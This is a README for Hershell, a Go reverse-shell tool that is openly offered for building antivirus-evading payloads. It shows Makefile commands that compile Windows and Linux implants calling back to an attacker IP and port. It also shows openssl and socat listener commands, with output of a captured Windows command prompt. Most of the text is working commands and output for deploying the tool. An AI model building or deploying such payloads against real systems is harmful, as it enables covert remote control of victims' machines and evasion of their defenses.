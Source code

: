 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems,

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``windows32`` : windows 32 bits executable
- ``windows64`` : windows 64 bits executable 
- ``linux32`` : linux 32 bits executable
- ``linux64`` : linux 64 bits executable

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

## Examples

For windows:

```bash
# Custom target
$ make GOOS=windows GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Custom target
$ make GOOS=linux GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
```

On the server side, you can use the openssl integrated TLS server:

```bash
$ openssl s_server -cert server.pem -key server.key -accept 1234
Using default temp DH parameters
ACCEPT
bad gethostbyaddr
-----BEGIN SSL SESSION PARAMETERS-----
MHUCAQECAgMDBALALwQgsR3QwizJziqh4Ps3i+xHQKs9lvp5RfsYPWjEDB68Z4kE
MHnP0OD99CHv2u27THKvCHCggKEpgrPnKH+vNGJGPJZ42QylfkekhSwY5Mtr5qYI
5qEGAgRYgSfgogQCAgEspAYEBAEAAAA=
-----END SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES128-SHA:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES256-SHA:ECDHE-ECDSA-AES256-SHA:AES128-GCM-SHA256:AES256-GCM-SHA384:AES128-SHA:AES256-SHA:ECDHE-RSA-DES-CBC3-SHA:DES-CBC3-SHA
Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Shared Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed
Supported Elliptic Curves: P-256:P-384:P-521
Shared Elliptic curves: P-256:P-384:P-521
CIPHER is ECDHE-RSA-AES128-GCM-SHA256
Secure Renegotiation IS supported
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or even better, use socat with its __readline__ module, which gives you a handy history feature:

```bash
$ socat readline openssl-listen:1234,fork,reuseaddr,verify=0,cert=server.pem
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```
